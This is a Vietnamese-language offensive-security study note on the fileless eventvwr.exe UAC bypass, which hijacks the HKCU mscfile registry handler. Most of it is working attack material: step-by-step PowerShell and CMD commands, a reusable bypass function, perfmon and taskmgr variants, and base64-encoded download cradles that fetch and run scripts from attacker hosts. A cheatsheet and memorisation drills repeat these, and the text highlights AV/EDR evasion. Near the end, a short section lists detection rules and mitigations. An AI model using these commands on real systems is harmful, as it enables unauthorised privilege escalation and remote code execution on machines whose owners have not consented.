

> **Prerequisites**: [[01-uac-internals|01. UAC Internals]] · [[02-auto-elevation-mechanism|02. Auto-Elevation Mechanism]]
> **Objectives**:
> - Hiểu kỹ thuật gốc từ 2016 và ý nghĩa lịch sử của nó
> - Thực hiện fileless bypass hoàn toàn qua registry — không drop file xuống disk
> - Phân biệt sự khác biệt với fodhelper về registry key và trigger binary
> - Nắm cơ chế `mscfile` ProgID hijack

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - User trong local **Administrators group** (Medium Integrity shell)
> - UAC không ở Always Notify (default level 5 là đủ)
> - Windows 7 / 8 / 8.1 / 10 — eventvwr.exe tồn tại trên tất cả phiên bản Windows
> - Không cần drop bất kỳ file nào xuống disk

> [!tip] Ưu điểm so với fodhelper
> Kỹ thuật eventvwr không drop DLL hay binary nào xuống disk — toàn bộ thực hiện qua registry và PowerShell in-memory. Giảm đáng kể attack footprint và khả năng bị AV/EDR phát hiện qua file-based scanning.

---

## Cơ chế tấn công

### Lịch sử kỹ thuật

Kỹ thuật này được Matt Nelson (`@enigma0x3`) và Matt Graeber (`@mattifestation`) phát hiện và công bố tháng 8/2016. Đây là **lần đầu tiên** một UAC bypass hoàn toàn fileless được công bố — không cần drop DLL, không cần code injection, không cần privileged file copy. Chỉ cần thao tác registry từ HKCU.

Microsoft đánh giá đây không phải security boundary violation và không vá. Kỹ thuật vẫn hoạt động trên Windows 11 đến thời điểm viết bài này.

### Tại sao eventvwr.exe bị exploit?

`eventvwr.exe` (Event Viewer) có `autoElevate=true` trong manifest. Khi khởi động, nó cần load Microsoft Management Console snap-in (`eventvwr.msc`). Để mở file `.msc`, nó tìm kiếm handler cho extension `.msc` qua ProgID `mscfile`:

```text
Lookup order:
1. HKCU\Software\Classes\mscfile\shell\open\command  ← attacker controls this!
2. HKLM\Software\Classes\mscfile\shell\open\command  ← legitimate: mmc.exe %1
```

**Điểm khác biệt với fodhelper**: Fodhelper đọc URI scheme handler (`ms-settings:`), còn eventvwr đọc **file extension handler** (`mscfile`). Cơ chế exploitable giống nhau nhưng registry path khác.

### Luồng tấn công

```text
Medium Integrity shell
    ↓ Ghi vào HKCU\Software\Classes\mscfile\shell\open\command = "powershell.exe -nop -w hidden -enc ..."
    ↓ Start-Process eventvwr.exe
        ↓ AppInfo auto-elevate → eventvwr.exe chạy ở High Integrity
            ↓ eventvwr.exe mở eventvwr.msc
            ↓ Lookup mscfile handler → đọc HKCU → tìm thấy PowerShell command
            ↓ Thực thi command AT High Integrity
→ PowerShell code thực thi ở High Integrity — không có file nào trên disk!
```

### Tại sao "fileless"?

Trước kỹ thuật này, tất cả UAC bypass đều cần ít nhất một trong:
- Drop một DLL vào System32 (qua IFileOperation)
- Drop executable
- Code injection vào elevated process

eventvwr bypass chỉ cần:
- `reg add` hoặc `New-Item` vào HKCU (không cần admin)
- `Start-Process eventvwr.exe`
- Payload có thể là `powershell.exe -enc <base64>` — chạy entirely in-memory

---

## Quy trình tấn công

**Môi trường giả định**: Reverse shell ở Medium Integrity, PowerShell available.

### Bước 1 — Xác nhận điều kiện

```powershell
# Kiểm tra user trong Admins
whoami /groups | findstr "S-1-5-32-544"

# Kiểm tra eventvwr.exe tồn tại
Test-Path "C:\Windows\System32\eventvwr.exe"

# Kiểm tra integrity
whoami /groups | findstr "Medium Mandatory"
```

> **Expected output**: Administrators SID và Medium Mandatory Level xuất hiện, `True` cho Test-Path.

### Bước 2 — Tạo payload

```powershell
# Option A: mở cmd.exe
$cmd = "cmd.exe"

# Option B: PowerShell download cradle (fileless payload)
$cmd = "powershell.exe -nop -w hidden -c `$c=New-Object Net.WebClient;IEX(`$c.DownloadString('http://ATTACKER_IP/rev.ps1'))"

# Option C: meterpreter stager (đã upload trước)
$cmd = "C:\Users\Public\shell.exe"
```

### Bước 3 — Plant registry key

```powershell
# Tạo registry key
$regPath = "HKCU:\Software\Classes\mscfile\shell\open\command"
New-Item -Force -Path $regPath | Out-Null
Set-ItemProperty -Path $regPath -Name "(Default)" -Value $cmd
```

> **Expected output**: Không có error — registry key được tạo.

### Bước 4 — Trigger eventvwr

```powershell
Start-Process "C:\Windows\System32\eventvwr.exe"
Start-Sleep -Seconds 3
```

> **Expected output**: Payload thực thi ở High Integrity. eventvwr.exe cũng mở lên (normal behavior) — khai thác không crash binary.

### Bước 5 — Cleanup

```powershell
Remove-Item -Force -Recurse "HKCU:\Software\Classes\mscfile" -ErrorAction SilentlyContinue
```

### CMD variant

```cmd
reg add "HKCU\Software\Classes\mscfile\shell\open\command" /d "cmd.exe" /f
start eventvwr.exe
rem Cleanup:
reg delete "HKCU\Software\Classes\mscfile" /f
```

### PowerShell Script đầy đủ

```powershell
function Invoke-EventVwrBypass {
    param (
        [string]$Command = "cmd.exe"
    )

    $regPath = "HKCU:\Software\Classes\mscfile\shell\open\command"

    try {
        # Plant
        New-Item -Force -Path $regPath -Value $Command | Out-Null

        # Trigger
        Start-Process "eventvwr.exe"
        Start-Sleep -Seconds 3

        Write-Output "[+] eventvwr bypass triggered — check for elevated process"
    }
    finally {
        # Always cleanup
        Remove-Item -Force -Recurse "HKCU:\Software\Classes\mscfile" `
            -ErrorAction SilentlyContinue
        Write-Output "[*] Registry cleaned up"
    }
}

# Usage:
Invoke-EventVwrBypass -Command "cmd.exe /c whoami > C:\Users\Public\result.txt"
```

---

## Biến thể & Bypass

### perfmon.exe — Cùng registry key mscfile

`perfmon.exe` (Performance Monitor) đọc **cùng registry key** `mscfile\shell\open\command` như eventvwr.exe. Có thể swap:

```cmd
reg add "HKCU\Software\Classes\mscfile\shell\open\command" /d "cmd.exe" /f
start perfmon.exe
reg delete "HKCU\Software\Classes\mscfile" /f
```

### taskmgr.exe — taskmgr ProgID

```cmd
reg add "HKCU\Software\Classes\taskmgr\shell\open\command" /d "cmd.exe" /f
start taskmgr.exe
reg delete "HKCU\Software\Classes\taskmgr" /f
```

### In-memory payload delivery

```powershell
# Tránh để payload trên disk hoàn toàn
$b64 = [Convert]::ToBase64String(
    [Text.Encoding]::Unicode.GetBytes(
        "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.1/shell.ps1')"
    )
)
$cmd = "powershell.exe -nop -w hidden -enc $b64"

$regPath = "HKCU:\Software\Classes\mscfile\shell\open\command"
New-Item -Force -Path $regPath -Value $cmd | Out-Null
Start-Process eventvwr.exe
Start-Sleep 3
Remove-Item -Force -Recurse "HKCU:\Software\Classes\mscfile" -ErrorAction SilentlyContinue
```

---

## Cây quyết định



---

## Command Cheatsheet

**CMD variant**

```cmd
rem Plant và trigger
reg add "HKCU\Software\Classes\mscfile\shell\open\command" /d "cmd.exe" /f
start eventvwr.exe
rem Cleanup
reg delete "HKCU\Software\Classes\mscfile" /f
```

**PowerShell variant**

```powershell
# Plant
$p = "HKCU:\Software\Classes\mscfile\shell\open\command"
New-Item -Force -Path $p -Value "cmd.exe" | Out-Null
# Trigger
Start-Process eventvwr.exe; Start-Sleep 3
# Cleanup
Remove-Item -Force -Recurse "HKCU:\Software\Classes\mscfile"
```

**perfmon.exe fallback**

```cmd
reg add "HKCU\Software\Classes\mscfile\shell\open\command" /d "cmd.exe" /f
start perfmon.exe
reg delete "HKCU\Software\Classes\mscfile" /f
```

**Fileless PowerShell payload**

```powershell
$b64 = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes("IEX(IWR 'http://IP/rev.ps1')"))
$p = "HKCU:\Software\Classes\mscfile\shell\open\command"
New-Item -Force -Path $p -Value "powershell -nop -w hidden -enc $b64" | Out-Null
Start-Process eventvwr.exe; Start-Sleep 3
Remove-Item -Force -Recurse "HKCU:\Software\Classes\mscfile"
```

**Verify**

```cmd
whoami /groups | findstr "High Mandatory"
```

---

## Daily Drill

**Thời gian**: 15 phút/ngày trong 7 ngày đầu.

**Drill 1 — CMD variant từ trí nhớ**
Mục tiêu: nhớ registry path `mscfile\shell\open\command`.

```cmd
reg add "HKCU\Software\Classes\mscfile\shell\open\command" /d "cmd.exe" /f
start eventvwr.exe
reg delete "HKCU\Software\Classes\mscfile" /f
```

Luyện cho đến khi: nhớ `mscfile` (không nhầm với `ms-settings`), gõ chính xác trong 30 giây.

**Drill 2 — So sánh key**
Mục tiêu: phân biệt registry key của các techniques.

| Binary | Registry Key |
|--------|-------------|
| fodhelper / computerdefaults | `ms-settings\Shell\Open\command` |
| eventvwr / perfmon | `mscfile\shell\open\command` |
| sdclt | `Folder\shell\open\command` |
| slui | `exefile\shell\open\command` |

Luyện cho đến khi: đọc tên binary là biết ngay registry key, không cần lookup.

**Drill 3 — Fileless payload**
Mục tiêu: viết được base64 encoded PowerShell reverse shell download cradle.

```powershell
$b64 = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes("IEX(IWR 'http://IP/s.ps1')"))
```

Luyện cho đến khi: viết lại không cần nhìn notes.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Registry**: Monitor write đến `HKCU\Software\Classes\mscfile\shell\open\command`
> - Sysmon Event ID 13: `TargetObject: HKCU\Software\Classes\mscfile\shell\open\command`
>
> **Process**: `eventvwr.exe` spawn process con bất thường
> - Sysmon Event ID 1: `ParentImage: eventvwr.exe`, `Image: cmd.exe | powershell.exe | ...`
>
> **Token**: Child process của eventvwr có token attribute `LUA://DecHdAutoAp`
> - Elastic Endpoint: `process.Ext.token.security_attributes : "LUA://DecHdAutoAp"`
>
> **SIEM rule tổng quát** (phát hiện nhiều bypass cùng lúc):
> `EventID=1 AND ParentImage IN (fodhelper.exe, eventvwr.exe, sdclt.exe) AND Image NOT IN (known_elevated_binaries)`

> [!note] Mitigation
> - Tăng UAC lên Always Notify: `ConsentPromptBehaviorAdmin = 2`
> - Monitor HKCU\Software\Classes\ writes — rất ít legitimate app cần write key này
> - AppLocker rule: block `eventvwr.exe` cho non-admin users
> - Deploy Sysmon với EventID 13 monitoring

---

## Lab Thực hành

| Platform | Machine | Tại sao phù hợp |
|----------|---------|----------------|
| Local VM | Windows 10/11 | Test đầy đủ kể cả fileless variant — không cần external dependency |
| HTB | **Arkham** (Retired) | Múltiple UAC bypass techniques — dùng eventvwr như một option |
| HTB | **Endgame XEN** (Retired) | UAC bypass trong chain từ Citrix escape đến Domain Admin |
| TryHackMe | **Bypassing UAC** | Room dedicated cho UAC bypass techniques |

---

## Field Manual Entry

> [!abstract] eventvwr.exe Fileless UAC Bypass
> **Điều kiện**: User trong Admins group, UAC ≠ Always Notify, Windows 7–11
> **Ưu điểm**: Không drop file — registry chỉ, AV evasion tốt hơn fodhelper
> **Lệnh nhanh**:
> ```cmd
> reg add "HKCU\Software\Classes\mscfile\shell\open\command" /d "cmd.exe" /f
> start eventvwr.exe
> reg delete "HKCU\Software\Classes\mscfile" /f
> ```
> **Fallback**: Thay `eventvwr.exe` bằng `perfmon.exe` — cùng registry key
> **Ref**: [[04-registry-hijack-eventvwr|04. Registry Hijack — eventvwr (Fileless)]]
